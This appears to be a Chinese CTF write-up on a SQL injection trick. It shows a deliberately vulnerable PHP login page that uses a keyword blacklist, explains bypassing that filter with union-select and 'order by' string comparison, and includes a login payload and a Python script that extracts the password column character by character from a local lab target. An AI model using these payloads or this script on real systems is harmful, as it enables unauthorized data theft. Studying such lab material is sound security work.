


## 一个好玩的sql注入姿势(感谢pcat牛不吝赐教)

### 代码如下:

```php
<?php
  $dbhost = "localhost";
  $dbuser = "root";
  $dbpass = "123456";
  $db = "ctf";
  $conn = mysqli_connect($dbhost,$dbuser,$dbpass,$db);
  mysqli_set_charset($conn,"utf8");

  /* sql

     create  table `admin` (
        `id` int(10) not null primary key auto_increment,
        `username` varchar(20) not null ,
        `password` varchar(32) not null
     );
  */
function   filter($str){
      $filterlist = "/\(|\)|username|password|where|
      case|when|like|regexp|into|limit|=|for|;/";
      if(preg_match($filterlist,strtolower($str))){
        die("illegal input!");
      }
      return $str;
  }
$username = isset($_POST['username'])?
filter($_POST['username']):die("please input username!");
$password = isset($_POST['password'])?
filter($_POST['password']):die("please input password!");
$sql = "select * from admin where  username =
 '$username' and password = '$password' ";

$res = $conn -> query($sql);
if($res->num_rows>0){
  $row = $res -> fetch_assoc();
  if($row['id']){
     echo $row['username'];
  }
}else{
   echo "The content in the password column is the flag!";
}

?>
```
题目说 password的字段的值,就是flag.那就要想办法读取password的内容

但是题目的过滤规则还是比较坑的:
```php
$filterlist = "/\(|\)|username|password|where|
case|when|like|regexp|into|limit|=|for/";
```
这些字符都不能出现,限制的比较坑的有一下两条:
1. 没有了括号,标志着没有办法用mysql里的函数了.
2. 没有了password,但是它却是字段名,所以sql语句中不能出现password这个列名

想搞明白,先看下面两个sql语句

mysql的字符串排序操作是从前往后一一用ascii码比对的.我们可以利用这个特性,来进行注入.
```sql
select * from ctf.admin  where username = 'admin'  union
distinct  select 1,2,0x38 order by 3 desc ;
```
我们可以控制后面的那个查询的第三个字段,让他从最小开始变化,当查询结果第一条返回的username字段是2的时候,我们就知道这个字符的ascii码减一就是跟数据库中的相等.所以就可以一位一位的猜出来password字段了.

但是在操作之前,我们需要先得到数据库中的用户名,这个简单
```
只需要提交: username='^1^1#&password=1
```
就可以看到一个用户名了.
python的poc如下
```python
#!/usr/bin/python
# coding:utf-8

import requests

def makeStr(begin,end):
    str=""
    for i in range(begin,end):
        str+=chr(i)
    return str
def getPassword():
    url="http://127.0.0.1/web200/index.php"
    testStr = makeStr(48,127)
    username = "admin' union distinct select 1,2,0x{hex} order by 3 desc#"
    flag = ""
    for  _  in range(32):
        for i in testStr:
            data = {"username":username.format(hex=(flag+i).encode('hex')),"password":'1'}
            res = requests.post(url,data)
            if "admin" not in res.text:
                flag= flag+chr(ord(i)-1)
                print flag
                break
            else:
                print "[*]",i

if __name__== '__main__':
    getPassword()
```
但是这里有个bug,因为mysql不区分大小写,他认为 D与d相等的.
所以最后跑出来的,全是大写的:


不过这样无所谓了,一般数据库中存储的MD5值都是小写,如果实在不行,就爆破一下,反正也不多.
